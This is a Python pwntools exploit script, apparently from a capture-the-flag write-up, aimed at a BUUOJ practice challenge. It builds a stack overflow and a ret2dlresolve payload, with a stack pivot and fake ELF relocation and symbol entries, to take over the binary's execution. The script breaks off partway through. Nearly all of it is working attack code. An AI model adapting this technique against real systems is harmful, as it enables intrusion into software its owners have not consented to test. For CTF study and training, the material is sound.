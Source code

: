 exp:

```plain
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='i386'

p=remote('node4.buuoj.cn',27376)
#p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

s       = lambda data               :p.send(data)
ss      = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p)
    pause()


bss=0x0804A060
lea_ret=0x08048977
inc_ebp=0x08048434

read_plt=0x08048470
read_got=elf.got['read']
leak('read_got',read_got)

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

base_stage = elf.bss() + 0x420
payload = 'a'*0x3A + p32(elf.bss()+0x420 +4)


sa('Give your description : ',payload)
fake_sym_addr = base_stage + 24
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10
st_name = fake_sym_addr + 0x10 - dynstr
fake_read_sym = flat([st_name, 0, 0, 0x12])
index_offset = base_stage + 16 - rel_plt
r_info = (index_dynsym << 8) | 0x7 
```